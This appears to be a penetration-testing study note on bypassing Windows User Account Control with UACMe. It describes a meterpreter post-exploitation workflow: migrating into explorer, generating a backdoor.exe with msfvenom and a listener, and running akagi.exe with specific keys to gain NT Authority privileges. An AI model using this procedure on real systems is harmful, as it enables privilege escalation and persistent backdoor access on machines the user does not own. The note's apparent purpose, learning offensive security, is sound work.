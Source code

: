
bypassing User Account Control with UACme from github

need a user that is part of local administrators group

brief
=
- prevents unauthorized changes within windows system
- on vista and greater
- has integrity levels, anything below high programs can be executed without prompting for confirmation
- access denied from commands means uac consent couldnt be given


Methodology
=
1. get meterpreter shell
2. get `sysinfo` (check if x86 or x64) meterpreter value
3. use `pgrep` to find explorer process
4. `migrate` to pid of explorer
5.` sysinfo` to confirm 64bit x64
6. open cmd shell
7. `net users` command to check users
8. `net localgroup administrators `to check who are admins
9. create a `backdoor.exe` with `msfvenom` and upload to the target
10. setup multi/handler/ for msfvenom backdoor
11. use UACMe from github and read documentation
	1. needs to be cloned and akagi.exe (x64) needs to be uploaded to target
	2. check the keys to use
	3. needs to pass backdoor.exe as param
12. check priviledges with `getprivs`
13. use `ps` to check processes using NT Authority and `migrate` to the process


UACMe
=
usage:

`.\akagi.exe <key> <path/to/backdoor.exe>` - key 23 and 33 works well, check which ones have been fixed, keys are specific to windows version 


Commands
=
net users - users on local machine
net localgroup administrators - user of administrator group
